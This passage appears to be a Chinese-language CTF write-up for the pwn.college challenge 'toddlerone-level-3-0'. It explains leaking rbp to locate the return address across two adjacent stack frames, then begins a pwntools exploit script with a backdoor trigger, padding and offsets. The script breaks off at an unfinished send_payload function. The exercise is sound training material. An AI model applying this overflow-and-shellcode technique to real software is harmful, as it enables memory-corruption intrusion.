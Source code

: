 ~_反正别告诉我你要通过程序的回显来打……应该没这样的人吧……你要真通过回显打通了，那 3.1 你怎么办是吧哈哈哈。总之看回显很没意思，丧失了本来的意义。_~

> 过了十分钟……

好的知道了，果然是我没想到……其实 rbp 也可以被泄漏出来不是吗，用它减去输入起始地址，我们发现偏移是一样的，那构造 shellcode 的时候我们就用泄漏出来的 rbp 减去得到的偏移地址，这就是返回地址了。然后，boom!

boom 个鸟，忘记触发后门后再次调用 challenge 会创建新的栈帧了。不过这两个栈帧一定是紧挨着的，所以我们的思路还是这样，这没问题。只不过计算的时候注意是用第一个栈帧的 rbp 减去第二个栈帧的输入起始地址罢了。~_（我就说我这么完美的 payload 怎么可能会打不通，果然是忘了什么……Alr, boom!）_~

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-3-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x68
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_ret = b"".ljust(0x8, b"A")
fixed_offset = 0x1170


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
```